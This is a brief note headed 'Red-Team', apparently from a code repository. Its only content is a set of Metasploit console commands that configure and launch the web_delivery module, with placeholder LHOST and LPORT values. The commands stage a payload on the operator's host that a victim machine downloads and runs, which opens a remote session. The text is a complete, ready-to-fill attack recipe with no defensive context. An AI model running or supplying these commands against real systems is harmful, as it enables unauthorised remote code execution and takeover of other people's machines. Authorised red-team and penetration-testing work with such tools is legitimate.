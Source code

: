 # Red-Team



    use exploit/multi/script/web_delivery
    set LHOST <ip address>
    set LPORT <port>
    set target 2
    exploit -j
